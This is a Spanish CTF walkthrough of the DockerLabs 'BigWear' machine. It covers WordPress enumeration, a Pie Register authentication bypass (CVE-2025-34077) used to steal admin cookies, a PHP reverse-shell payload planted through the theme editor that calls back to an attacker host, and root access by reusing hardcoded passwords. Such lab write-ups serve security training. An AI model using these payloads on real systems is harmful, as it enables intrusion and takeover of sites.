







# BigWear DockerLabs (Intermediate)

## Contexto de la maquina

### Trayectoria BigWear

<figure><figcaption></figcaption></figure>

### Descripción

**BigWear** es una máquina orientada a entornos web que combina múltiples tecnologías como **WordPress**, una aplicación en **React** y un servicio en **Python (WSGI)**. El objetivo principal es comprometer el sitio web y escalar privilegios hasta obtener acceso como `root`.

**Objetivo del reto**

* Obtener acceso inicial al sistema mediante explotación web.
* Escalar privilegios hasta comprometer completamente la máquina.

**Tipo de máquina**

* Web
* Linux

**Habilidades y técnicas evaluadas**

* Enumeración de servicios web
* Análisis de WordPress
* Identificación de plugins vulnerables
* Explotación de vulnerabilidades conocidas (CVE)
* Secuestro de sesión (Session Hijacking)
* Ejecución remota de código (RCE)
* Escalada de privilegios mediante credenciales expuestas

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bigwear.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh bigwear.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-08 11:23 -0400
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 6.9.4
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: BigWear WordPress
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Length: 644
|     Content-Disposition: inline; filename="index.html"
|     Accept-Ranges: bytes
|     ETag: "f28d0bf7364f5ff87825e15951852d784de5b81e"
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Wed, 08 Apr 2026 15:23:14 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><meta charset="utf-8"/><link rel="icon" href="/favicon.ico"/><meta name="viewport" content="width=device-width,initial-scale=1"/><meta 
name="theme-color" content="#000000"/><meta name="description" content="Web site created using create-react-app"/><link rel="apple-touch-icon" href="/logo192.png"/><link rel="manifest"
href="/manifest.json"/><title>React App</title><script defer="defer" src="/static/js/main.49cf7e7a.js"></script><link href="/static/css/main.fdb74950.css" 
rel="stylesheet"></head><body><noscript>You need to enable JavaScript to run this app.</noscript><div id=
|   Help, NCP: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
8000/tcp open  http    WSGIServer 0.2 (Python 3.10.12)
|_http-title: Page not found at /
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.98%I=7%D=4/8%Time=69D672E2%P=x86_64-pc-linux-gnu%r(Get
SF:Request,39F,"HTTP/1\.1\x20200\x20OK\r\nContent-Length:\x20644\r\nConten
SF:t-Disposition:\x20inline;\x20filename=\"index\.html\"\r\nAccept-Ranges:
SF:\x20bytes\r\nETag:\x20\"f28d0bf7364f5ff87825e15951852d784de5b81e\"\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nVary:\x20Accept-Encoding
SF:\r\nDate:\x20Wed,\x2008\x20Apr\x202026\x2015:23:14\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><meta\x2
SF:0charset=\"utf-8\"/><link\x20rel=\"icon\"\x20href=\"/favicon\.ico\"/><m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,initial-scale=
SF:1\"/><meta\x20name=\"theme-color\"\x20content=\"#000000\"/><meta\x20nam
SF:e=\"description\"\x20content=\"Web\x20site\x20created\x20using\x20creat
SF:e-react-app\"/><link\x20rel=\"apple-touch-icon\"\x20href=\"/logo192\.pn
SF:g\"/><link\x20rel=\"manifest\"\x20href=\"/manifest\.json\"/><title>Reac
SF:t\x20App</title><script\x20defer=\"defer\"\x20src=\"/static/js/main\.49
SF:cf7e7a\.js\"></script><link\x20href=\"/static/css/main\.fdb74950\.css\"
SF:\x20rel=\"stylesheet\"></head><body><noscript>You\x20need\x20to\x20enab
SF:le\x20JavaScript\x20to\x20run\x20this\x20app\.</noscript><div\x20id=")%
SF:r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r
SF:\n\r\n")%r(NCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(HTTPOptions,39F,"HTTP/1\.1\x20200\x20OK\r\nContent-L
SF:ength:\x20644\r\nContent-Disposition:\x20inline;\x20filename=\"index\.h
SF:tml\"\r\nAccept-Ranges:\x20bytes\r\nETag:\x20\"f28d0bf7364f5ff87825e159
SF:51852d784de5b81e\"\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nV
SF:ary:\x20Accept-Encoding\r\nDate:\x20Wed,\x2008\x20Apr\x202026\x2015:23:
SF:14\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20html><html\x20lan
SF:g=\"en\"><head><meta\x20charset=\"utf-8\"/><link\x20rel=\"icon\"\x20hre
SF:f=\"/favicon\.ico\"/><meta\x20name=\"viewport\"\x20content=\"width=devi
SF:ce-width,initial-scale=1\"/><meta\x20name=\"theme-color\"\x20content=\"
SF:#000000\"/><meta\x20name=\"description\"\x20content=\"Web\x20site\x20cr
SF:eated\x20using\x20create-react-app\"/><link\x20rel=\"apple-touch-icon\"
SF:\x20href=\"/logo192\.png\"/><link\x20rel=\"manifest\"\x20href=\"/manife
SF:st\.json\"/><title>React\x20App</title><script\x20defer=\"defer\"\x20sr
SF:c=\"/static/js/main\.49cf7e7a\.js\"></script><link\x20href=\"/static/cs
SF:s/main\.fdb74950\.css\"\x20rel=\"stylesheet\"></head><body><noscript>Yo
SF:u\x20need\x20to\x20enable\x20JavaScript\x20to\x20run\x20this\x20app\.</
SF:noscript><div\x20id=");
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds
```

A partir del escaneo, identificamos los siguientes servicios relevantes:

* **Puerto 80 (HTTP)** → Apache 2.4.52 (Ubuntu)
* **Puerto 3000** → Aplicación web (probablemente basada en React)
* **Puerto 8000** → Servidor WSGI (Python 3.10)

Aunque hay varios servicios expuestos, el puerto **80** resulta especialmente interesante, ya que aloja un sitio web basado en **WordPress**, lo cual representa una superficie de ataque conocida.

Accedemos al sitio para confirmar:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Se observa claramente que la aplicación está basada en WordPress.

## Enumeración con WPScan

Dado que el objetivo utiliza WordPress, utilizamos **WPScan** para realizar una enumeración más profunda:

```shell
wpscan --url http://<IP>/ --enumerate u
```

Respuesta:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/ [172.17.0.2]
[+] Started: Wed Apr  8 11:35:15 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.52 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://172.17.0.2/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://172.17.0.2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://172.17.0.2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://172.17.0.2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.9.4 identified (Latest, released on 2026-03-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://172.17.0.2/feed/, <generator>https://wordpress.org/?v=6.9.4</generator>
 |  - http://172.17.0.2/comments/feed/, <generator>https://wordpress.org/?v=6.9.4</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://172.17.0.2/wp-content/themes/twentytwentyfive/
 | Latest Version: 1.4 (up to date)
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://172.17.0.2/wp-content/themes/twentytwentyfive/readme.txt
 | Style URL: http://172.17.0.2/wp-content/themes/twentytwentyfive/style.css
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://172.17.0.2/wp-content/themes/twentytwentyfive/style.css, Match: 'Version: 1.4'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://172.17.0.2/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Apr  8 11:35:17 2026
[+] Requests Done: 50
[+] Cached Requests: 8
[+] Data Sent: 12.994 KB
[+] Data Received: 691.551 KB
[+] Memory used: 191.105 MB
[+] Elapsed time: 00:00:02
```

#### Hallazgos relevantes

Durante la enumeración identificamos varios puntos importantes:

* **Versión de WordPress:** 6.9.4 (actual)
* **XML-RPC habilitado**, lo cual puede ser útil para ataques de fuerza bruta o amplificación
* **WP-Cron accesible externamente**
* Archivo `robots.txt` expuesto con rutas interesantes (`/wp-admin/`)
* **Usuario identificado:** `admin`

### Intento de fuerza bruta

Con el usuario identificado, intentamos realizar un ataque de fuerza bruta:

```shell
wpscan --url http://<IP>/ --usernames admin --passwords <WORDLIST>
```

Sin embargo, no se obtienen credenciales válidas, por lo que descartamos esta vía inicial de acceso.

### Enumeración de plugins

Dado que WordPress suele ser vulnerable a través de plugins desactualizados, procedemos a enumerarlos:

```shell
wpscan --url http://<IP>/ --enumerate p
```

Respuesta:

```
................................<RESTO DE INFO>....................................
[i] Plugin(s) Identified:

[+] *
 | Location: http://172.17.0.2/wp-content/plugins/*/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | The version could not be determined.

[+] pie-register
 | Location: http://172.17.0.2/wp-content/plugins/pie-register/
 | Last Updated: 2026-03-30T12:58:00.000Z
 | [!] The version is out of date, the latest version is 3.8.4.9
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 3.7.1.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.17.0.2/wp-content/plugins/pie-register/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
................................<RESTO DE INFO>....................................
```

#### Hallazgo clave

Se identifica el siguiente plugin:

* **Plugin:** `pie-register`
* **Versión instalada:** 3.7.1.4
* **Estado:** Desactualizado (última versión: 3.8.4.9)

Este punto es especialmente relevante, ya que los plugins desactualizados suelen ser vectores comunes de explotación en WordPress.

### Identificación de vulnerabilidad

Tras investigar la versión del plugin `pie-register`, se confirma que presenta vulnerabilidades conocidas asociadas a un **CVE**, lo que lo convierte en un vector de ataque potencial.

Este hallazgo será clave para la siguiente fase de explotación.

## Escalate user www-data

### CVE-2025-34077

<figure><figcaption></figcaption></figure>

La vulnerabilidad identificada corresponde al **CVE-2025-34077**, la cual afecta al plugin **Pie Register** en versiones ≤ 3.7.1.4. Esta vulnerabilidad permite realizar un **bypass de autenticación**, posibilitando el acceso como usuario administrador sin necesidad de conocer sus credenciales.

Para más información técnica, podemos consultar el advisory oficial:

URL = [Info CVE-2025-34077 GitHub](https://github.com/advisories/GHSA-3r79-62f7-6gcx)

Si buscamos un **Proof of Concept (PoC)**, encontraremos un exploit funcional en el siguiente repositorio:

URL = [PoC GitHub CVE-2025-34077](https://github.com/0xgh057r3c0n/CVE-2025-34077/tree/main)

Procedemos a utilizar el script en Python incluido en el repositorio:

```shell
python3 CVE-2025-34077.py http://<IP>/
```

Respuesta:

```
_____________   _______________         _______________   ________   .________         ________     _____  _________________________ 
\_   ___ \   \ /   /\_   _____/         \_____  \   _  \  \_____  \  |   ____/         \_____  \   /  |  | \   _  \______  \______  \\
/    \  \/\   Y   /  |    __)_   ______  /  ____/  /_\  \  /  ____/  |____  \   ______   _(__  <  /   |  |_/  /_\  \  /    /   /    /
\     \____\     /   |        \ /_____/ /       \  \_/   \/       \  /       \ /_____/  /       \/    ^   /\  \_/   \/    /   /    / 
 \______  / \___/   /_______  /         \_______ \_____  /\_______ \/______  /         /______  /\____   |  \_____  /____/   /____/  
        \/                  \/                  \/     \/         \/       \/                 \/      |__|        \/                 

              by 0xgh057r3c0n | Pie Register WordPress plugin <= 3.7.1.4

[•] Sending payload to hijack admin session...

[+] Successfully hijacked cookies for user_id=1 (admin):
    wordpress_a2a379b8590d3431d7153bb3b68da0df = admin%7C1775835920%7CSjOCR1ozxsKhkj9xGF2v5hjZV8Ymnl7vKL4QJiAbOtP%7C84c13b3ec4dfc9eb45227f381cef451618e81915278b2540c212c3545d7c6668
    wordpress_logged_in_a2a379b8590d3431d7153bb3b68da0df = admin%7C1775835920%7CSjOCR1ozxsKhkj9xGF2v5hjZV8Ymnl7vKL4QJiAbOtP%7C73feaaac583b549c5f8803b90bbd85cc33055dbc887ed3870cc1814be5a4510d

[!] Use these cookies in your browser or tools like curl or Burp to act as admin.
```

El exploit funciona correctamente y nos proporciona las **cookies de sesión del usuario `admin`**, lo que implica que podemos autenticarnos directamente como dicho usuario sin necesidad de contraseña.

Para aprovechar esto, debemos añadir ambas cookies en nuestro navegador. Esto se puede hacer desde las **Developer Tools → Storage → Cookies**, sustituyendo o creando las correspondientes entradas.

<figure><figcaption></figcaption></figure>

Una vez añadidas las cookies, accedemos al panel de administración:

```
URL = http://<IP>/wp-admin/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Como podemos observar, el acceso es exitoso y ya disponemos de privilegios de **administrador en WordPress**.

### Ejecución de código (RCE)

<figure><figcaption></figcaption></figure>

Con acceso al panel, el siguiente paso consiste en obtener ejecución remota de comandos. Para ello, aprovechamos el editor de temas de WordPress para inyectar código PHP malicioso.

Navegamos a:

```
Tools → Theme Editor → Theme Functions
```

Dentro del archivo, insertamos el siguiente payload:

```php
$s=fsockopen("<IP_ATTACKER>",<PORT>);proc_open("/bin/sh",[$s,$s,$s],$p);
```

Este payload establece una **reverse shell** hacia nuestra máquina atacante.

Antes de guardar los cambios, dejamos un listener a la espera:

```shell
nc -lvnp <PORT>
```

Una vez guardados los cambios en el editor, recibiremos la conexión:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 53412
whoami
www-data
```

Confirmamos que hemos obtenido acceso al sistema como el usuario **`www-data`**.

Para trabajar de forma más cómoda, es recomendable estabilizar la shell interactiva.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Una vez obtenida una shell como `www-data`, procedemos a realizar tareas básicas de **enumeración del sistema** en busca de vectores de escalada de privilegios.

Durante esta fase, identificamos un directorio interesante en la ruta `/opt`, que contiene varios scripts potencialmente relevantes:

```
drwxr-xr-x 1 www-data www-data 4096 Mar 23 14:27 bigwear
-rwxr-xr-x 1 root     root     1115 Mar 19 14:49 diagnose.sh
-rwxr-xr-x 1 root     root     3170 Mar 19 14:38 init-wordpress.sh
-rwxr-xr-x 1 root     root     1657 Mar 19 14:38 start-services.sh
```

Observamos que varios de estos scripts pertenecen al usuario `root`, por lo que resulta interesante analizar su contenido en busca de credenciales, configuraciones inseguras o posibles vectores de abuso.

Tras revisar los archivos, encontramos información sensible en el script `start-services.sh`.

> start-services.sh

```bash
.............................<RESTO DE INFO>.......................................
echo "=========================================="
echo "Iniciando servicios con supervisord..."
echo "=========================================="
echo ""
echo "Puertos disponibles:"
echo "  - WordPress: http://localhost:80"
echo "  - BigWear: http://localhost:3000"
echo ""
echo "WordPress admin: admin / AdminWP2024!@#Secure123$%"
echo "BigWear Django: pepe / BigWear2024!@#"
echo ""
echo "=========================================="

# Iniciar supervisord que gestionará todos los procesos
exec /usr/bin/supervisord -c /etc/supervisor/conf.d/supervisord.conf
```

En este script identificamos un claro caso de **credenciales hardcodeadas**, lo cual representa una mala práctica de seguridad. Concretamente, se exponen dos pares de credenciales:

* WordPress → `admin / AdminWP2024!@#Secure123$%`
* Aplicación Django (BigWear) → `pepe / BigWear2024!@#`

### Escalada a root

Dado que el único usuario al que potencialmente podemos escalar mediante autenticación local es `root`, probamos a reutilizar las credenciales encontradas.

```shell
su root
```

Metemos como contraseña `BigWear2024!@#`...

```
root@f191b87f1a58:/opt# whoami
root
```

La autenticación es exitosa, lo que confirma una **reutilización de credenciales** entre servicios y el usuario `root`, permitiéndonos escalar privilegios de forma directa.

Con esto, conseguimos acceso como **usuario root**, comprometiendo completamente el sistema y dando por finalizada la máquina.
